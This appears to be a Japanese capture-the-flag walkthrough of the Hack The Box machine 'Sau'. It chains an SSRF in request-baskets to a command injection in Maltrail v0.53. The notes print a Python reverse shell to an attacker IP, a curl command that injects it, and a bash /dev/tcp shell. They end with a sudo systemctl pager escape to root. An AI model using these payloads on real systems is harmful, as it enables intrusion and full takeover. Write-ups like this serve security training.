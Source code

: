 #### nmap

port555555にブラウザでアクセスする
![[../images/20230821061029.png]]

新しいバスケットを作成
![[../images/20230821061250.png]]
「Open Backet」で送信する
![[../images/20230821061618.png]]
いくつかのオプションを設定できる
この機能を使えば、このバスケットに送られたリクエストを、ここに貼り付けた任意のURLにリダイレクトすることができる。
「任意の」URL を貼り付けてもよいでしょうか? ネットワーク内でも???
![[../images/20230821061945.png]]

>"forward_url"：クライアントのリクエストをどこに転送するかをサーバに伝えます。
>"proxy_response" : クライアントがリクエストから返ってきた情報を知りたい場合にサーバーに指示する。
 >"insecure_tls" : サーバにSSL証明書のCAを検証させたくない場合。

ページの下に[[request-baskets Version1.21]]が表示されている
![[../images/20230821062645.png]]
検索っしてみるとSSRFの脆弱性があることが分かる
###### 参照
https://notes.sjtu.edu.cn/s/MUUhEymt7#
https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3

「Configuration Settings」のURLに「http://127.0.0.1:80/login」全部のチェックボックスにチェックを入れて「Apply」を押す

URLに先ほど作成したBasketsのアドレスを入れる

![[../images/20230821065216.png]]

proxy_responseをtrueに設定した理由を説明します。リクエストバスケットのドキュメントを読んだ後、それが何であるか、それがどのように機能するかについての一般的な概念を得ました。転送URLを設定すると、バスケットにリクエストがキャッチされ、設定したURLに転送されます。プロキシ応答をtrueに設定すると、バスケットURLをリクエストすると、リクエストがForward URLに転送されるだけでなく、ブラウザで応答が表示されます。

ページの下に[[Maltrail v0.53]]が表示されている。
これにはOS command injectionの脆弱性がある


```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.4",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' | base64
```

```BASH
curl 'http://10.10.11.224:55555/babesket' -d 'username=;`echo "base64でエンコードした物を入れる" | base64 -d | bash`'
```

または
```bash
git clone https://github.com/massco99/htb_sau.git
```

リスナーを起動しておけばシェルがとれる

![[../images/20230821071929.png]]

#### 権限昇格

```BASH
puma$ sudo -S -l
... snip ...
User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

```BASH
puma$ sudo /usr/bin/systemctl status trail.service
> WARNING: terminal is not fully functional
> -  (press RETURN)
> ● trail.service - Maltrail. Server of malicious traffic detection system
>      Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset:>
>      Active: active (running) since Thu 2023-07-27 20:59:09 UTC; 38min ago
>        Docs: https://github.com/stamparm/maltrail#readme
>              https://github.com/stamparm/maltrail/wiki
>    Main PID: 894 (python3)
>       Tasks: 27 (limit: 4662)
>      Memory: 46.1M
>      CGroup: /system.slice/trail.service
>              ├─ 894 /usr/bin/python3 server.py
>              ├─ 949 /bin/sh -c logger -p auth.info -t "maltrail[894]" "Failed p>
>              ├─ 950 /bin/sh -c logger -p auth.info -t "maltrail[894]" "Failed p>
>              ├─ 952 bash
>              ├─ 953 /bin/bash -c bash -i >& /dev/tcp/10.10.16.101/9999 0>&1
>              ├─ 954 bash -i
>              ├─ 985 sh
>              ├─1001 /bin/bash
>              ├─1003 /bin/sh
>              ├─1022 script /dev/null /bin/bash
>              ├─1023 bash -i
>              ├─1030 sudo /usr/bin/systemctl status trail.service
>              ├─1031 /usr/bin/systemctl status trail.service
>              ├─1032 pager
> lines 1-23~
```

```BASH
> lines 1-23~!sh
>> root# id
>>> uid=0(root) gid=0(root) groups=0(root)
```








